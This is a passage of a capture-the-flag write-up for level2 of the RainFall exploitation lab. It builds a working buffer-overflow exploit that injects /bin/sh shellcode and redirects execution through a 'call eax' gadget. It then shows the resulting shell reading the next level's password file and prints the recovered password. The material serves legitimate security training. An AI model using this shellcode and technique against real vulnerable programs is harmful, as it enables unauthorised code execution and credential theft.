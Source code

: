 ```bash
level2@RainFall:~$ echo -n "$(echo -n -e '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')"$(perl -e 'print "A"x59')"$(echo -n -e '\x7d\xf6\xff\xbf')" > /tmp/lol

level2@RainFall:~$ cat /tmp/lol | ./level2
(0xbffff67d)
```

Unfortunaltely, the printf in the code prevent us from executing the shellcode in our string because its address begins by `\bf` like all other addresses of the program in the stack

So I had to find something else !

When doing an `objdump -d` on the program, we can see the function `__do_global_ctors_aux` used by the kernel makes a `call` instruction to `eax` to execute something stored in it

![Linux startup callgraph](http://dbp-consulting.com/tutorials/debugging/images/callgraph.png)

```bash
080485d0 <__do_global_ctors_aux>:
 80485d0:       55                      push   %ebp
 80485d1:       89 e5                   mov    %esp,%ebp
 80485d3:       53                      push   %ebx
 80485d4:       83 ec 04                sub    $0x4,%esp
 80485d7:       a1 48 97 04 08          mov    0x8049748,%eax
 80485dc:       83 f8 ff                cmp    $0xffffffff,%eax
 80485df:       74 13                   je     80485f4 <__do_global_ctors_aux+0x24>
 80485e1:       bb 48 97 04 08          mov    $0x8049748,%ebx
 80485e6:       66 90                   xchg   %ax,%ax
 80485e8:       83 eb 04                sub    $0x4,%ebx
 80485eb:       ff d0                   call   *%eax
 80485ed:       8b 03                   mov    (%ebx),%eax
 80485ef:       83 f8 ff                cmp    $0xffffffff,%eax
 80485f2:       75 f4                   jne    80485e8 <__do_global_ctors_aux+0x18>
 80485f4:       83 c4 04                add    $0x4,%esp
 80485f7:       5b                      pop    %ebx
 80485f8:       5d                      pop    %ebp
 80485f9:       c3                      ret
 80485fa:       90                      nop
 80485fb:       90                      nop
```

I then tried to pass my shellcode in the input of the program like before, but passing the address of the `call eax` instruction in the `EIP` register instead of the address of our shellcode in the stack of the `p` function frame

```bash
level2@RainFall:~$ echo -n "$(echo -n -e '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')"$(perl -e 'print "A"x59')"$(echo -n -e '\xeb\x85\x04\x08')" > /tmp/lol

level2@RainFall:~$ cat /tmp/lol - | ./level2
ls
1Qh//shh/binAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAls
ls
ls: cannot open directory .: Permission denied
whoami
level3
pwd
/home/user/level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
